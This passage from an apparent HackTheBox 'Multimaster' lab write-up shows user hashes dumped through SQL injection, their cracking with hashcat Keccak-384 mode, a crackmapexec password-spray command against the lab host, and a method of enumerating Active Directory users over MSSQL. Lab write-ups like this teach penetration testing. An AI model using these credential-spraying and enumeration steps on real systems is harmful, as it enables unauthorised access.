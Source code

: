 ```
[{"id":1,"name":"1","position":"1","email":"9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739","src":"sbauer"},{"id":1,"name":"1","position":"2","email":"fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa","src":"okent"},{"id":1,"name":"1","position":"3","email":"68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813","src":"ckane"},{"id":1,"name":"1","position":"4","email":"68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813","src":"kpage"},{"id":1,"name":"1","position":"5","email":"9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739","src":"shayna"},{"id":1,"name":"1","position":"6","email":"9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739","src":"james"},{"id":1,"name":"1","position":"7","email":"9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739","src":"cyork"},{"id":1,"name":"1","position":"8","email":"fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa","src":"rmartin"},{"id":1,"name":"1","position":"9","email":"68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813","src":"zac"},{"id":1,"name":"1","position":"10","email":"9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739","src":"jorden"},{"id":1,"name":"1","position":"11","email":"fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa","src":"alyx"},{"id":1,"name":"1","position":"12","email":"68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813","src":"ilee"},{"id":1,"name":"1","position":"13","email":"fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa","src":"nbourne"},{"id":1,"name":"1","position":"14","email":"68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813","src":"zpowers"},{"id":1,"name":"1","position":"15","email":"9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739","src":"aldom"},{"id":1,"name":"1","position":"16","email":"cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc","src":"minatotw"},{"id":1,"name":"1","position":"17","email":"cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc","src":"egre55"}]
```

Time to crack some hashes! It was a bit tough to find the hash type, but it was some form of SHA-384. After trying that and failing, I checked [hashcat examples](hashcat.net/wiki/doku.php?id=example_hashes) and tried the "Keccak-384" format, mode 17900. This works, and the following hashes were cracked:

```
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa:banking1
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739:password1
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813:finance1
```

Time to spray them with "crackmapexec". We already have a userlist from our UNION injection, so we can just compile a userlist and password list and feed it into the tool

```
┌──(root💀kali)-[/home/kali/HackTheBox/multimaster]
└─# crackmapexec smb 10.10.10.179 -u users.txt -p pass.txt --continue
```

However, none of them work. There is a possibility that there are more users than just those from the UNION injection. Also, it turns out [you can enumerate AD users via MSSQL](https://keramas.github.io/2020/03/22/mssql-ad-enumeration.html), so it looks like that must be the play here. MSSQL can actually pull the SID of a domain object while also matching a SID to a domain object, but these are in a certain hex format. By pulling a domain object SID and truncating it to obtain the domain SID, it is possible to convert a relative id (RID) and append it to the domain SID to perform a lookup and enumerate a domain object. Rather than brute forcing the users ourselves, the article also conveniently has a [script](https://github.com/Keramas/mssqli-duet/blob/master/python/mssqli-duet.py) for this. The script was really buggy, though; first, it couldn't parse the HTTP request correctly, so I had to hard-code the host in the code in line 296 (`url = 'http://10.10.10.179/api/getColleagues'`). Secondly, it wasn't returning the domain users (despite the api returning them when I checked wireshark).
